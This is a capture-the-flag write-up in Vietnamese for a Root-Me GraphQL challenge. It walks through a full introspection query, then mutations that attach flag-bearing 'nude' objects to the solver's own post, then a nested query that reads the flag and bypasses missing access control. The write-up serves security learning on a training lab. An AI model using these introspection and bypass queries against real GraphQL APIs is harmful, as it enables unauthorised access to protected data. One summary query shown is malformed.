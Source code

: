 # root-me GraphQL

**endpoint**: http://challenge01.root-me.org/web-serveur/ch66/web-serveur/ch66/api/graphql

**trigger**:
```json
{"query": "{__schema}"}
```
**results**:
```json
"errors":[{"message":"Field \"__schema\" of type \"__Schema!\" must have a selection of subfields. Did you mean \"__schema { ... }\"?","locations":[
```
Có dính lỗi graphql injection

Dùng tiếp graphql introspection để đọc cấu trúc của database
```json
{
"query": "fragment FullType on __Type {\n  kind\n  name\n  description\n  fields(includeDeprecated: true) {\n    name\n    description\n    args {\n      ...InputValue\n    }\n    type {\n      ...TypeRef\n    }\n    isDeprecated\n    deprecationReason\n  }\n  inputFields {\n    ...InputValue\n  }\n  interfaces {\n    ...TypeRef\n  }\n  enumValues(includeDeprecated: true) {\n    name\n    description\n    isDeprecated\n    deprecationReason\n  }\n  possibleTypes {\n    ...TypeRef\n  }\n}\nfragment InputValue on __InputValue {\n  name\n  description\n  type {\n    ...TypeRef\n  }\n  defaultValue\n}\nfragment TypeRef on __Type {\n  kind\n  name\n  ofType {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n        ofType {\n          kind\n          name\n          ofType {\n            kind\n            name\n            ofType {\n              kind\n              name\n              ofType {\n                kind\n                name\n              }\n            }\n          }\n        }\n      }\n    }\n  }\n}\n\nquery IntrospectionQuery {\n  __schema {\n    queryType {\n      name\n    }\n    mutationType {\n      name\n    }\n    types {\n      ...FullType\n    }\n    directives {\n      name\n      description\n      locations\n      args {\n        ...InputValue\n      }\n    }\n  }\n}"
}
```

Tóm gọn, ta được structure sau:

*Fields* user gồm các *args* sau:
```json
{
"query": "{user {id, username, email, createdAt, updatedAt}}"
}
```
*Fields* `post` gồm các *args* sau:
```json
{
"query": "{post {id, userId, slug, name, content, createdAt, updatedAt}}"
}
```
*Fields* `nude` gồm các *args* sau:
```json
{
"query": "{nude {id, flag, content, createdAt, updatedAt}}"
}
```
*Fields* `comment` gồm các *args* sau:
```json
{
"query": "{comment {id, userId, postId, comment, nude, createdAt, updatedAt}}"
}
```

Ta biêt rằng `flag` nằm ở field `nude `tuy nhiên khi query trực tiếp tuy nhiên sau khi thử fuzz thì  nhận thấy user hiện tại chỉ có quyền thực hiện quyền truy vẫn `user` và `post`, không thể trực tiếp truy vẫn `nude` và comment

Ta biết rằng structure của field `user` không hề có password hay token để truy vấn nên direction không phải là chiếm tài khoản admin.

Từ đó mình nghĩ đến khả năng, mình sẽ add một `comment` có chứa `nude` vào và sau đó đọc `comment` đó để có được `flag`. Tuy nhiên, làm thế nào để có thể đọc được comments, trong khi mình chỉ có thể truy vấn vào `users và posts`. Sau khi kiểm tra lại `Introspection` một lần nữa thì mình phát hiện *comments có thể truy vấn được từ post*, không cần phải truy vấn trực tiếp.
```json
"name":"createComment",
"description":"The mutation that allows you to create a new Comment",
"args":[
	{"name":"userId"}, 
	{"name":"postId"}, 
	{"name":"nudeId"}, 
	{"name":"comment"} 
],
```

```json
"name":"createPost",
"description":"The mutation that allows you to create a new Post",
"args":[
	{"name":"userId"},
	{"name":"slug"},
	{"name":"name"},
	{"name":"content"},
```
### Và sau đó mình nghĩ đến solution như sau:

1. Tiến hành truy vấn posts để xác định id của posts được user quản lí.
2. Thực hiện add comments bao gồm cả nude để chứa flag vào comments của post tương ứng mình có thể control.
3. Truy vấn lại post, truy vấn đến thông tin cả comments của posts.



**Info**: (userId: 2, postId: 7)
```json
{
"query": "mutation { createComment (userId: 2, postId: 7, nudeId: 1, comment: \"test\"){comment}}"
}
// created comment test
{
"query": "mutation { createComment (userId: 2, postId: 7, nudeId: 2, comment: \"test1\"){comment}}"
}
// created comment test1
```

**Đọc flag**:
```json
{
"query": "{post {comments {nude {id, flag}}}}"
}
```

**flag**: 
```json
"comments":[{"nude":[{"id":1,"flag":"You're too strong, but my nude is not here"}]},{"nude":[{"id":2,"flag":"GraphQLDoesNeedAccessControl!!!!!!"}]
```

Dài dòng, lê thê là vì mình chưa thực sự chai dạng này

**References**: https://thanhlocpanda.wordpress.com/2021/01/14/graphql-injection-khai-niem-va-challenge-root-me/


#### Tóm tắt
1. Trigger graphql injection thành công

2. Dùng introspection query đọc hết structure của graphql

3. Nhận thấy hướng giải không phải là chiếm tài khoản admin mà là cần đọc field chứa flag là `nude`.

4. Fuzz tiếp thì biết được user hiện tại chỉ có quyền truy vẫn trực tiếp 2 fields là `user` và `post`. không thể query nude hay comment trực tiếp.

5. Thấy được flow rằng `nude` thuộc `comment` thuộc `post` nên ta có thể query đến bằng cách nested này.

6. Vì chỉ post của `admin` chứa `nude` nên ta cần tạo `comments` chứa field `nude` nhằm hứng `flag` bị leak ra này.

7. Dùng `mutation` schema write
```json
"mutation {post (){comment}}"
``` 

8. Đọc
```json
"{post {comments {nude {flag}}}}"
```

8. Thấy vẫn chưa có flag tạo tiếp field `nude` thứ 2.

9. Đọc -> flag

